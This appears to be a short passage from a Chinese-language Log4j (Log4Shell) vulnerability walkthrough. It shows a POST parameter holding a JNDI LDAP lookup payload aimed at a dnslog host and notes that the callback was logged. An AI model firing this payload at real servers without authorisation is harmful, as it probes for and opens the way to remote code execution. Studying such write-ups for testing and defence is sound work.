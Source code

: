 

### 2.dnslog执行代码

构造payload，POST提交，参数如下
```
c=${jndi:ldap://log4j2.xxxxxx.dnslog.cn}
```
![image-20211214110003055]($imgs/image-20211214110003055.png)

查看dnslog平台，已经成功记录请求。
